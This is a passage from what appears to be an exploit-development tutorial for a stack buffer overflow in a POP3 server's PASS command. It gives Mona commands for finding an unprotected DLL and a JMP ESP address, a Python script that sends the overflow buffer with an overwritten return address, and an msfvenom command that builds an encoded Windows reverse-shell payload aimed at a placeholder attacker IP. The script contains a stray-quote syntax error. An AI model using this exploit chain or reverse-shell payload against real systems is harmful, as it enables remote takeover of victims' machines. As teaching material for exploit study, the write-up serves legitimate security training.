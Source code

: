 While application paused in debugger we will use Mona script to locate loaded modules using the command:

```
!mona moduels
```

The output should contain list of DLLs and EXEs application may use. We need to locate libaries with no memory protections (ASLR, DEP or Stack Canaries) and it's range does not contain bad chars. In our case we found SLMFC.DLL which has no memory protections.

Next step is locate a JMP ESP opcode (\xff\xe4) address in this DLL using the following Mona command:

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```

Put a breakpoint on this instruction address 5F4A358F (using F2) and update our exploit:

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = "A" * 2606
payload += ""\x8f\x35\x4a\x5f"
payload += "C" * (3500 - 2606 - 4)

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
```

*NOTE:* The return address is written in little-endian format (reversely).

## Shellcode

We will create our shellcode using msfvenom by avoiding the bad chars (\x00\x0a\x0d) we found as following:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<MY_ATTACKER_IP> LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

This will create us encoded, bad chars free shellcode in 351 bytes long.

Now we need to pad our shellcode with NOP (no-operation) instructions which basiclly "slide" the execution flow to the next memory address, in our case, until it hits the start of the shellcode.

We need to calculate NOP sleds as following:

 [offset_total A's (0x41)] - [eip] - [shellcode]
